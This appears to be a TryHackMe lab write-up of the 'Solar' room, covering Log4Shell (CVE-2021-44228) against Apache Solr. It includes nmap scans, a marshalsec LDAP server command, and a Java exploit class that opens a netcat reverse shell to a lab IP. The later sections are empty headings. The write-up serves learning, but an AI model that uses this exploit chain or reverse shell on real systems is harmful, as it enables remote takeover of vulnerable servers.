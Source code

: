 <h1 align="center">Solar, exploiting log4j</h1>
<p align="center"><img width="80px" src="https://github.com/user-attachments/assets/8f194657-c8b8-4674-8c13-0c79195e29a5"><br>
July 3, 2025<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>,<br>
and I’m excited to join you on this adventure, part of my <code>423</code>-day-streak in<a href="https://tryhackme.com">TryHackMe</a>.<br>
<em>Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun</em>.<br>
Access it <a href="https://tryhackme.com/room/solar"</a>here.<br>
<img width="1200px" src=""></p>


<br>

<h2>Task 1 . CVE-2021-44228 Introduction</h2>

<br>
<br>

<h2>Task 2 . Reconnaissance</h2>


<h3>Nmap</h3>
<p>
  
- <code>22/ssh</code><br>
- <code>111/rpcbind</code></p>

```bash
nmap -v TargetIP
...
PORT    STATE SERVICE
22/tcp  open  ssh
111/tcp open  rpcbind
```

<p>
  
- <code>22/ssh</code><br>
- <code>111/rpcbind</code><br>
- <code>8983/unknow</code></p>

```bash
nmap -v -p- TargetIP
...
PORT    STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
8983/tcp open  unknown
```

<br>


```bash
nmap -sV -p 8983 TargetIP
...
PORT     STATE SERVICE VERSION
8983/tcp open  http    Apache Solr
```

![image](https://github.com/user-attachments/assets/bce1d788-ebd3-43f5-bd2c-925b23de6e86)

<br>

<h2>Task 3 . Discovery</h2>

![image](https://github.com/user-attachments/assets/ca965573-f46a-44fd-b452-77830fe5c44f)

<br>


<h2>Task 4 . Proof od Concept</h2>

![image](https://github.com/user-attachments/assets/b73acbcf-af79-4561-a3ea-1efbf33b35e4)


![image](https://github.com/user-attachments/assets/e83fe8b1-4e67-4199-9534-a7f3ef817476)

<br>


<h2>Task 5 . Exploitation</h2>

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.251.109:8000/#Exploit"
```

```bash
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.233.109 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<h2>Task 6 . Persistence</h2>

<br>

<h2>Task 7 . Detection</h2>

<br>

<h2>Task 8 . Bypasses</h2>

<br>

<h2>Task 9 . Mitigation</h2>

<br>

<h2>Task 10 . Patching</h2>

<br>

<h2>Task 11. Credits and Author´s Notes</h2>


![image](https://github.com/user-attachments/assets/4f45613b-1260-4a3f-837a-961538580ff1)

![image](https://github.com/user-attachments/assets/f283c532-d246-4f08-abe5-9edf87be0b34)

![image](https://github.com/user-attachments/assets/3d36aff2-762f-4587-bef4-767bdf30a3cd)


![image](https://github.com/user-attachments/assets/36906b53-0893-4a11-b7b4-7f0ef3003b30)




